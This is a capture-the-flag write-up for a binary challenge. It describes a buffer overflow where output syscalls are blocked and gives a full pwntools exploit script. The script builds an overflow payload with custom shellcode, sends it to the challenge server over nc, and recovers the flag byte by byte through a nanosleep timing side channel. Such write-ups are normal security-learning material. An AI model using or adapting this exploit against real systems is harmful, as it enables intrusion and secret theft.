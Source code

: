 ### 0x00 Challenge: Weird Chall
**Description:**
>This is a slightly different challenge.
>
>nc 168.119.247.237 5013

### 0x01 Write-up:
It is a typical buffer overflow which is not much realistic since X is disabled... The difference between a simple bof and this challenge is this one has disabled the write syscall (and other), thus, you can run your own code but you can not print anything. If you look the assembly code of the binary, you can see that one of the syscall that are allowed is sys_nanosleep, so, you can imagine how to solve this challenge.

Basically the way to solve this challenge is developing your own shellcode that compares character by character by bruteforce the flag (that is in memory) and making a delay in order to know if the character is the good one.

**Exploit:**
```python
from pwn import *
import time
import os

context(arch = 'amd64', os = 'linux')

context.terminal = ["tmux", "splitw", "-h"]

end_flag = '}'
flag = ""
x = -8
lastchar = 'x'

while end_flag != lastchar:
    for i in string.printable:
        start = time.time()
        shellcode = '''
                xor rdx, rdx
                mov edx, %s
                mov rsi, %s
                mov al, byte ptr [r13 + rsi + 8]
                cmp rax, rdx
                jnz exit
                xor r11, r11
                mov r11d, 0
        delay:
                push 0
                push 5
                mov rsi, rsp
                mov rdi, rsi
                mov esi, 0
                mov al, 35
                syscall
        exit:
                xor rdi, rdi
                mov al, 60
                syscall
        '''%(hex(ord(i)), hex(x))
        f = open("input_pwn", "wb")
        f.write(b"A"*72 + p64(0x00000000004011c2) + asm(shellcode)+b"\x0a")
        f.close()
        log.info("Trying: %s"%i)
        os.system("cat input_pwn | nc 168.119.247.237 5013")
        end = time.time()
        if ((end - start) > 2.0):
            x+=1
            log.success("Found: %s"%i)
            lastchar = i
            flag = flag + i
            break
log.success("Flag: %s"%flag)
```

**Participant write-ups:**

<a href="https://www.youtube.com/watch?v=9vRvnPX3rVo">Video write-up by Razvi</a>
